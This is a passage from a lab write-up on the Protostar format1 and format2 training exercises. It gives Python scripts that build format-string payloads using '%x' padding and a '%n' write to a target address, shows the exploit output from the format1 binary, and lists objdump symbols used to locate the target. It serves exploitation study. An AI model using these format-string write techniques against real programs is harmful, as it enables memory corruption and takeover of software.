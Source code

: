 Python code `py.py`
```
padding = "AAAABBBBCCCCABCD"[:-1]+"\x38"
address = "\x96\x04\x08A"
showing = "%x__"*132
payload = padding+address+"AAAA"+showing+"%n"
print(payload)
```

Bash Script
```
$ ./format1 $(python /tmp/py)
AAAABBBBCCCCABC8AAAAA804960c__bffff5b8__8048469__b7fd8304__b7fd7ff4__bffff5b8__8048435__bffff785__b7ff1040__804845b__b7fd7ff4__8048450__0__bffff638__b7eadc76__2__bffff664__bffff670__b7fe1848__bffff620__ffffffff__b7ffeff4__804824d__1__bffff620__b7ff0626__b7fffab0__b7fe1b28__b7fd7ff4__0__0__bffff638__92890026__b8daf636__0__0__0__2__8048340__0__b7ff6210__b7eadb9b__b7ffeff4__2__8048340__0__8048361__804841c__2__bffff664__8048450__8048440__b7ff1040__bffff65c__b7fff8f8__2__bffff77b__bffff785__0__bffff9b0__bffff9be__bffff9c9__bffff9e6__bffff9f9__bffffa03__bffffef3__bfffff31__bfffff45__bfffff5c__bfffff6d__bfffff75__bfffff85__bfffff92__bfffffbd__bfffffd4__bfffffe6__0__20__b7fe2414__21__b7fe2000__10__178bfbff__6__1000__11__64__3__8048034__4__20__5__7__7__b7fe3000__8__0__9__8048340__b__3e9__c__0__d__3e9__e__3e9__17__1__19__bffff75b__1f__bffffff2__f__bffff76b__0__0__50000000__4095c1db__58acb6b1__3bbc5080__6972603f__363836__0__0__2e000000__726f662f__3174616d__41414100__42424241__43434342__43424143__you have modified the target :)
user@protostar:/opt/protostar/bin$ ./format1 $(python /tmp/py)
AAAABBBBCCCCABC8AAAAA804960c__bffff5b8__8048469__b7fd8304__b7fd7ff4__bffff5b8__8048435__bffff785__b7ff1040__804845b__b7fd7ff4__8048450__0__bffff638__b7eadc76__2__bffff664__bffff670__b7fe1848__bffff620__ffffffff__b7ffeff4__804824d__1__bffff620__b7ff0626__b7fffab0__b7fe1b28__b7fd7ff4__0__0__bffff638__8efb916e__a4a8677e__0__0__0__2__8048340__0__b7ff6210__b7eadb9b__b7ffeff4__2__8048340__0__8048361__804841c__2__bffff664__8048450__8048440__b7ff1040__bffff65c__b7fff8f8__2__bffff77b__bffff785__0__bffff9b0__bffff9be__bffff9c9__bffff9e6__bffff9f9__bffffa03__bffffef3__bfffff31__bfffff45__bfffff5c__bfffff6d__bfffff75__bfffff85__bfffff92__bfffffbd__bfffffd4__bfffffe6__0__20__b7fe2414__21__b7fe2000__10__178bfbff__6__1000__11__64__3__8048034__4__20__5__7__7__b7fe3000__8__0__9__8048340__b__3e9__c__0__d__3e9__e__3e9__17__1__19__bffff75b__1f__bffffff2__f__bffff76b__0__0__b3000000__816f59b__a708b888__c61bb266__698804ee__363836__0__0__2e000000__726f662f__3174616d__41414100__42424241__43434342__43424143__you have modified the target :)
```

## Format 2
`objdump -t`
```
08048454 g     F .text  00000067              vuln
080496d8 g     O .bss   00000004              stdin@@GLIBC_2.0
080496e4 g     O .bss   00000004              target
080496e8 g       *ABS*  00000000              _end
00000000       F *UND*  00000000              puts@@GLIBC_2.0
080496d8 g       *ABS*  00000000              _edata
0804853a g     F .text  00000000              .hidden __i686.get_pc_thunk.bx
080484bb g     F .text  0000000f              main
0804830c g     F .init  00000000              _init
```

Do the same steps as above, but this time, you adjust the length of your string to the appropriate value
Python Script
```
padding = "AAAA"
address = "\xe4\x96\x04\x08"
showing = "%x__"*4

payload = padding+address+showing
payload += " "*(64-len(payload) - (83-64))
payload += "%n"
print(payload)
```
Bash Script
```
```